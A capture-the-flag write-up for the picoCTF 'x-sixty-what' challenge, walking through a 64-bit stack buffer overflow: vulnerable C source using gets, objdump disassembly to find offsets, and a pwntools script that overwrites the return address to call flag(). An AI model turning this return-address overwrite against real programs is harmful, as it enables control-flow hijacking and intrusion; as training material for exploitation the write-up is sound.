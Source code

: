 # x-sixty-what

This challenge from [picoCTF](https://play.picoctf.org/practice/challenge/319) is a basic buffer overflow.
First, let's look at the code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

We can see that we can write on a 64 bytes buffer `buf` an unlimited amount of bytes thanks to the `get` function (it does not perform bounds checking). We will perform a basic RIP to call the `flag` function.
First, we can get the function adress using `objdump`:
```
❯ objdump -d vuln| grep flag
0000000000401236 <flag>:
  40125e:       75 29                   jne    401289 <flag+0x53>
```

To determine the rip size let's look at the `vuln` function

```❯ objdump -d vuln | grep vuln

vuln:     file format elf64-x86-64
00000000004012b2 <vuln>:
  401333:       e8 7a ff ff ff          call   4012b2 <vuln>
❯ objdump -d -j .text --start-address=0x4012b2 vuln


vuln:     file format elf64-x86-64


Disassembly of section .text:

00000000004012b2 <vuln>:
  4012b2:       f3 0f 1e fa             endbr64
  4012b6:       55                      push   %rbp
  4012b7:       48 89 e5                mov    %rsp,%rbp
  4012ba:       48 83 ec 40             sub    $0x40,%rsp
  4012be:       48 8d 45 c0             lea    -0x40(%rbp),%rax
  4012c2:       48 89 c7                mov    %rax,%rdi
  4012c5:       b8 00 00 00 00          mov    $0x0,%eax
  4012ca:       e8 31 fe ff ff          call   401100 <gets@plt>
  4012cf:       90                      nop
  4012d0:       c9                      leave
  4012d1:       c3                      ret

00000000004012d2 <main>:
  4012d2:       f3 0f 1e fa             endbr64
  4012d6:       55                      push   %rbp
  4012d7:       48 89 e5                mov    %rsp,%rbp
  4012da:       48 83 ec 20             sub    $0x20,%rsp
  4012de:       89 7d ec                mov    %edi,-0x14(%rbp)
  4012e1:       48 89 75 e0             mov    %rsi,-0x20(%rbp)
  4012e5:       48 8b 05 84 2d 00 00    mov    0x2d84(%rip),%rax        # 404070 <stdout@GLIBC_2.2.5>
  4012ec:       b9 00 00 00 00          mov    $0x0,%ecx
  4012f1:       ba 02 00 00 00          mov    $0x2,%edx
  4012f6:       be 00 00 00 00          mov    $0x0,%esi
  4012fb:       48 89 c7                mov    %rax,%rdi
  4012fe:       e8 1d fe ff ff          call   401120 <setvbuf@plt>
  401303:       e8 08 fe ff ff          call   401110 <getegid@plt>
  401308:       89 45 fc                mov    %eax,-0x4(%rbp)
  40130b:       8b 55 fc                mov    -0x4(%rbp),%edx
  40130e:       8b 4d fc                mov    -0x4(%rbp),%ecx
  401311:       8b 45 fc                mov    -0x4(%rbp),%eax
  401314:       89 ce                   mov    %ecx,%esi
  401316:       89 c7                   mov    %eax,%edi
  401318:       b8 00 00 00 00          mov    $0x0,%eax
  40131d:       e8 ae fd ff ff          call   4010d0 <setresgid@plt>
  401322:       48 8d 3d 3f 0d 00 00    lea    0xd3f(%rip),%rdi        # 402068 <_IO_stdin_used+0x68>
  401329:       e8 92 fd ff ff          call   4010c0 <puts@plt>
  40132e:       b8 00 00 00 00          mov    $0x0,%eax
  401333:       e8 7a ff ff ff          call   4012b2 <vuln>
  401338:       b8 00 00 00 00          mov    $0x0,%eax
  40133d:       c9                      leave
  40133e:       c3                      ret
  40133f:       90                      nop
.....
```

We know that the `push` instruction will take 8 bytes, so we will need 8 more bytes to overide the RIP.
Finally we can retrieve the flag with 64 junk bytes for the buffer and 8 bytes for the RIP, then we can just add the `flag` adress


# Solve.py

```py
from pwn import *


payload = b'A' * (64 + 8) + p64(0x0000000000401236)

r = remote('saturn.picoctf.net', 58957)

r.recvuntil(b'Welcome to 64-bit. Give me a string that gets you the flag:')
r.sendline(payload)
r.interactive()
```